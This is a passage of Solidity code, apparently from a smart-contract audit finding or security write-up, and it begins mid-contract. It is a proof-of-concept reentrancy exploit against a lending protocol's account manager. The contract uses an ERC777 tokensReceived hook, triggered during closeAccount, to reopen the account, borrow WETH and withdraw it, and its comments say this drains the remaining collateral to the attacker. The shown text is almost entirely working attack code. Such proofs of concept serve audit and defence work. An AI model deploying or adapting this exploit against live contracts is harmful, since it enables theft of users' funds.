 ```solidity
		);
	}

	function prepare(uint256 amount) external payable {
		// Open the account
		accountManager.openAccount(address(this));
		// Get the address of the account and store it
		account = accountRegistry.accountsOwnedBy(address(this))[0];
		// Set borrow amount to 1/10 of collateral
		borrowAmount = address(this).balance / 10;
		// Approve accountManager to handle tokens
		erc777.approve(address(accountManager), amount);
		// Deposit any amount of ERC777
		accountManager.deposit(account, address(erc777), amount);
		// Deposit a large amount of ETH
		accountManager.depositEth{value: address(this).balance}(account);
	}

	function startAttack() external {
		attacked = true;
		accountManager.closeAccount(account);
	}

	function tokensReceived(
		address operator,
		address from,
		address to,
		uint256 amount,
		bytes memory userData,
		bytes memory operatorData
	) external {
		require(msg.sender == address(erc777), "Wrong sender");
		
		if (attacked) {
			attacked = false;
			_attack();
		}
	}

	function _attack() internal {
		// Reopen the account
		accountManager.openAccount(address(this));
		// Borrow WETH
		accountManager.borrow(account, weth, borrowAmount);
		// Withdraw borrowed WETH
		accountManager.withdraw(account, weth, borrowAmount);

		// Flow of execution returns to sweepTo() and withdraws
		// the rest of the collateral to the attacker
	}

	fallback() external payable {
		// Not used in this example but it could be used
		// to attack another account after the current one is drained,
		// or to repay a flashloan
	}

	receive() external payable {
		// Not used in this example but it could be used
		// to attack another account after the current one is drained,
		// or to repay a flashloan
	}
}
```
